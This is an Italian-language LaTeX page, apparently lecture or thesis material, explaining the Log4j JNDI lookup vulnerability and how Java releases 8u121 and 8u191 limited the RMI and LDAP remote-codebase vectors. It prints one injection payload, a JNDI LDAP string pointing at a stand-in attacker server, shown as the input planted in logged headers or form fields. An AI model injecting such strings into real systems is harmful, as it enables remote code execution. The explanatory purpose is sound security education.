 \documentclass[a4paper, 12pt]{article}
\begin{document}
Log4J effettua una JNDI lookup mentre espande i placeholder nei messaggi di log. Quasi tutti gli input dell'utente, prima di essre loggati, vengono interpretati dal logger, questo consente all'attaccante che può manipolare l'input, di caricare dati da un server JNDI dannoso e potenzialmente eseguire codice Java arbitrario.
Log4j2 supporta la possibilità di specificare dei placeholder nei messaggi di log come riferimenti a proprietà definite altrove. Questo viene effettuato attraverso una sintassi speciale nella forma \verb!${prefisso:nome}!, dove il prefisso identifica un contesto specifico nel quale valutare il nome della variabile.
Ad esempio loggando la stringa \verb!${java:version}! si ottiene la versione corrente di Java in esecuzione.

Tutto ciò che un attaccante deve fare per sfruttare la vulnerabilità è trovare un input che viene registrato nei log ed iniettare una stringa del tipo:
\begin{center}
    \verb!${jndi:ldap://attackerserver.com/a}!
\end{center}
Questo potrebbe essere un'intestazione HTTP come lo User-Agent (comunemente registrato nei log) o un parametro di un form come username o password che viene loggato dalla applicazione.


\subsubsection{Patch nelle versioni Java}
Per diverso tempo sia per RMI che per LDAP il riferimento che era possibile specificare relativo alla codebase da importare non è stato affatto limitato, una chiamata lookup ad server LDAP o RMI controllato dall'attaccante portava direttamente all'esecuzione di codice remoto.

A partire dalla versione di Java \verb!8u121! l'inserimento di una codebase remota è stata bloccata di default per quanto riguarda RMI.
Apparentemente la patch era stata applicata anche per LDAP, ma si è rivelata completamente inefficace per il caricamento di oggetti tramite le codbase di factory. Pertanto, fino al rilascio di Java \verb!8u191! (circa tre anni fa) i riferimenti LDAP consentivano di caricare classi remote contenenti codice arbitrario tramite una chiamata JNDI lookup controllata.

Le versioni JDK successive a \verb!8u191! non sono vulnerabili al vettore di attacco LDAP. In queste versioni \verb!com.sun.jndi.ldap.object.trustURLCodebase! è impostato su \verb!false! per impostazione predefinita, il che significa che JNDI non può caricare codice remoto utilizzando LDAP. Tuttavia, esistono altri vettori di attacco capaci di causare RCE, un attaccante infatti potrebbe comunque sfruttare il codice di altre applicazioni esistenti sul server per ottenere il caricamento di codice remoto. 
\end{document}
